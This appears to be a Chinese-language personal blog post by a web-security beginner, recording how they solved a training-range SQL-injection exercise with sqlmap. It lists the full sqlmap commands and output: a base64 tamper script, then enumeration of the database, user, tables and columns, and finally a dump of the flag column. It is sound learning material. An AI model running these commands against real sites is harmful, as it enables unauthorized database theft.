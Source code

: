 ```yaml
---
layout: post
title: "sqlmap-learning1"
date: 2019-05-20
author: jjnoob
categories:
- 2019-05
tags:
- sqli
- sqlmap
---
```


* content
{:toc}


> sqlmap实战体验, 看教程很迷. 实战一次会理解的更好.

> 虽然用linux安装这些工具更合适, 不过这个比较浪费时间. 准备暑假的时候把大部分的工具迁到Linux上去. 我目前还是比较焦急的, 想多学点东西.
> 不太想在细枝末节上面浪费太多时间.
> 仔细想想, 自己的时间已经不多了. web-sec其实上周四(19-05-16)才算刚刚接触, 之前一直在划水摸鱼, 没有深入学习.  
> 还有很多知识点要学, 还有很多工具需要学习怎么使用, 还有课堂的学习, 还有beego等框架.


[参考](https://www.cnblogs.com/dzkwwj/p/9484671.html)

练习地址: 墨者学院-->在线靶场-->web安全-->sql注入-->sql注入实战-MySQL

**题目提示的解题方向:**
参数通过base64编码后传输，然后根据相关提示进行测试

<br />

# 测试注入
测试注入:
```
sqlmap  -u http://219.153.49.228:46768/show.php?id=MQo=
```
结果:
```
[20:34:09] [CRITICAL] all tested parameters do not appear to be injectable. Try to increase values for '--level'/'--risk' options if you wish to perform more tests. If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g. '--tamper=space2comment') and/or switch '--random-agent'
```

> 报错信息可以有道翻译一下, 这么长.

大体意思是: 参数 id 可能不存在注入，可以尝试增加尝试等级（level），或者增加执行测试的风险（risk）。如果你觉得存在某种保护机制，可以使用tamper篡改注入数据

根据提示信息增加level和tamper：
```
sqlmap  -u http://219.153.49.228:46768/show.php?id=MQo= --level=3 --tamper=base64encode
```

返回:
```
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.7, PHP 5.5.9
back-end DBMS: MySQL >= 5.0.12
```

剩下就是常规脱库操作

<br />

# 脱库
## (1) 查看数据库名
```
sqlmap -u http://219.153.49.228:46768/show.php?id=MQo= --level=3 --tamper=base64encode --current-db
```

返回:
```
current database: 'test'
```

## (2) 查看当前用户
```
sqlmap -u http://219.153.49.228:46768/show.php?id=MQo= --level=3 --tamper=base64encode --current-user
```

返回:
```
current user: 'admin@%'
```


## (3) 查看表
查看数据库test中有哪些表:
```
sqlmap -u http://219.153.49.228:46768/show.php?id=MQo= --level=3 --tamper=base64encode -D test --tables
```

返回:
```
Database: test
[1 table]
+------+
| data |
+------+
```

## (4) 查看列
查看data表中有几列:
```
sqlmap -u http://219.153.49.228:46768/show.php?id=MQo= --level=3 --tamper=base64encode -D test -T data --columns
```

返回:
```
Database: test
Table: data
[4 columns]
+--------+------------------+
| Column | Type             |
+--------+------------------+
| id     | int(10) unsigned |
| main   | text             |
| thekey | varchar(255)     |
| title  | varchar(255)     |
+--------+------------------+
```

thekey这个列..

## (5) 最后一步
```
sqlmap -u http://219.153.49.228:46768/show.php?id=MQo= --level=3 --tamper=base64encode -D test --tables -C thekey --dump
```

返回:
```
mozhec42eae6ac2490f9fa58b828f58d
Database: test
Table: data
[1 entry]
+----------------------------------+
| thekey                           |
+----------------------------------+
| mozhec42eae6ac2490f9fa58b828f58d |
+----------------------------------+
```

key:
```
mozhec42eae6ac2490f9fa58b828f58d
```

等待时间有点长, 耐心等待就好.
